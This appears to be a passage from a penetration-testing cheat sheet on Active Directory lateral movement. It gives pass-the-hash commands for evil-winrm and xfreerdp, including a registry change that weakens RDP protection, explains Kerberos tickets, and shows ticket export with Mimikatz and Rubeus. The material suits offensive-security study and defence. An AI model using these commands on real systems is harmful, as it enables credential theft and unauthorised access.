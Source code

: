 **Pass the Hash with evil-winrm (Linux)**
````
$ evil-winrm -i <IP> -u <user> -H <hash>
````

**Pass the Hash with RDP (Linux)**
````
Reg Key: reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
$ xfreerdp  /v:<IP> /u:<user> /pth:<hash>
````

## Pass the Ticket (PtT)

Another method for moving laterally in an Active Directory environment is called a Pass the Ticket (PtT) attack. In this attack, we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash.
The Kerberos authentication system is ticket-based. The central idea behind Kerberos is not to give an account password to every service you use. Instead, Kerberos keeps all tickets on your local system and presents each service only the specific ticket for that service, preventing a ticket from being used for another purpose.
- The Ticket Granting Ticket (TGT) is the first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or TGS.
- The Ticket Granting Service (TGS) is requested by users who want to use a service. These tickets allow services to verify the user's identity.
If the user wants to connect to an MSSQL database, it will request a Ticket Granting Service (TGS) to the Key Distribution Center (KDC), presenting its Ticket Granting Ticket (TGT). Then it will give the TGS to the MSSQL database server for authentication.

**Pass the Ticket (PtT) attack**

We need a valid Kerberos ticket to perform a Pass the Ticket (PtT) attack. It can be:
- Service Ticket (TGS) to allow access to a particular resource.
- Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.

### from Windows

**Mimikatz - Export tickets**
````
# privilege::debug
# sekurlsa::tickets /export

> dir *.kirbi
[0;6c680]-2-0-40e10000-plaintext@krbtgt-domain.kirbi
[0;3e7]-0-2-40a50000-DC01$@cifs-DC01.domain.kirbi
````
The tickets that end with $ correspond to the computer account, which needs a ticket to interact with the Active Directory. User tickets have the user's name, followed by an @ that separates the service name and the domain, for example: [randomvalue]-username@service-domain.local.kirbi.

**Rubeus - Export tickets**
````
> Rubeus.exe dump /nowrap
````
